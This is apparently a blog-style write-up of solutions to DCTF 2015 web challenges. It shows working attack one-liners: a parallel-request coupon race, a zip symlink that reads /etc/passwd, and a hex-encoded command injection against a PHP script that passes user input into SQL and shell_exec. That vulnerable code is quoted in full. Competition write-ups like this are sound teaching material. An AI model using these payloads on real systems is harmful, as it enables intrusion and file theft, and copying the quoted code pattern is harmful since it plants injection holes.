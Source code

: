 ```yaml
---
title:      DCTF 2015 Web challenges
author: Filippo Cremonese (fcremo), Giulio De Vito (cube)
date:       2015-10-05 12:00:00
summary:    Solutions for three web challenges starring in DCTF 2015
categories: DCTF2015 Web
tags:
 - DCTF
 - Web 
---
```


## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:
{% highlight bash%}
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
{% endhighlight %}

## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
{% highlight bash%}
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
{% endhighlight %}
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web300
Coming soon!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
{% highlight bash%}
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
{% endhighlight %}
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
{% highlight bash%}
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
{% endhighlight %}

The reason this works was because id was used in an SQL query and got converted to a string:
{% highlight php%}
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...'); 
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
{% endhighlight %}
